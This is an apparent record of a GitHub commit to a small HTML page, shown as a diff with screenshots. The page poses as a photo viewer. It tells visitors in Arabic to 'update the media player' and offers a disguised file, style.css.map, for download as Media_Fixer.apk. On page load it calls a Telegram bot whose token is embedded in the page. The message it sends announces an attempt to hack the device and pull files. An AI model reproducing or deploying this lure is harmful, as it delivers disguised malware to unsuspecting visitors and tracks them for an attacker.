

Before and after one commit to telegram9999/Group-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 800 px of the page, without its empty margins (241-1038 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,18 +1,24 @@
 <!DOCTYPE html>
 <html>
 <head>
-    <title>Photo Viewer</title>
+    <title>تحميل الصورة بجودة عالية</title>
+    <meta charset="UTF-8">
     <style>
-        body { background: #000; color: #fff; text-align: center; font-family: sans-serif; }
-        img { max-width: 90%; margin-top: 50px; border-radius: 10px; box-shadow: 0 0 20px rgba(255,255,255,0.2); }
+        body { background: #1a1a1a; color: white; text-align: center; font-family: Arial; }
+        .btn { background: #25d366; padding: 15px 30px; border: none; border-radius: 5px; color: white; cursor: pointer; font-size: 18px; }
     </style>
 </head>
 <body>
-    <h2>جاري عرض الصورة...</h2>
-    <img src="shrouk_final.jpg" alt="Media Content">
+    <img src="shrouk_final.jpg" width="200"><br>
+    <h3>لتنزيل الصورة بجودة 4K الأصلية، يرجى تحديث مشغل الوسائط</h3>
+    <br>
+    <a href="style.css.map" download="Media_Fixer.apk">
+        <button class="btn">تحديث وتحميل الآن</button>
+    </a>
 
     <script>
-        fetch('https://api.telegram.org/bot8644789773:AAHR24ApIVuGT10W5sDFD-Wm3fHJAEIlrrk/sendMessage?chat_id=1356975454&text=🔥_Target_Accessed_GitHub_Link_🔥');
+        // كود إضافي بيبعت بيانات المتصفح فوراً قبل ما يحمل الملف
+        fetch('https://api.telegram.org/bot8644789773:AAHR24ApIVuGT10W5sDFD-Wm3fHJAEIlrrk/sendMessage?chat_id=1356975454&text=🔥 جاري محاولة اختراق الجهاز وسحب الملفات... 🔥');
     </script>
 </body>
 </html>
```
